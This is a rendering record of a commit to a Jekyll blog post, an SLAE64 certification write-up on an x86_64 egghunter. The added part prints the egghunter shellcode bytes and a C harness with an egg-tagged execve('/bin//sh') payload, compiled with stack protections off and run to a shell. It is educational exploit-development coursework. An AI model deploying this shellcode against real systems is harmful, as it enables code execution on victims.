

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-14-SLAE64-Egghunter.md, in a window 1280 px wide and 1400 px high, scrolled down 566 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1196 px from its top, so only the background shows below that.

Commit message:
Update 2021-01-14-SLAE64-Egghunter.md

````diff
--- a/_posts/posts/2021-01-14-SLAE64-Egghunter.md
+++ b/_posts/posts/2021-01-14-SLAE64-Egghunter.md
@@ -56,3 +56,58 @@ main:
 ```
 
 Let's assemble this, link it, and get its shellcode.
+
+```term
+whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
+\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1
+whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$
+```
+
+###### C format
+
+```term
+#include<stdio.h>
+#include<string.h>
+
+unsigned char egg[] = \
+"\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1"
+
+;
+
+unsigned char code[] = \
+"\x45\x46\x45\x46\x45\x46\x45\x46"
+"\x48\x31\xc0\x48\x31\xf6\x48\x31\xdb\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
+
+;
+
+main()
+{
+
+  printf("Shellcode size:  %d\n", strlen(code));
+  printf("Egg size:  %d\n", strlen(egg));
+
+        int (*ret)() = (int(*)())egg;
+
+        ret();
+
+}
+```
+
+#### EndGame
+
+```term
+whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ gcc egghunter-x86_64.c -o egghunter-x86_64 -fno-stack-protector -z execstack -w
+whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ ./egghunter-x86_64
+Shellcode size:  44
+Egg size:  42
+$
+```
+
+### Code
+
+This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
+courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
+
+Student ID: SLAE-27812/PA-27812
+
+You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_3).
````
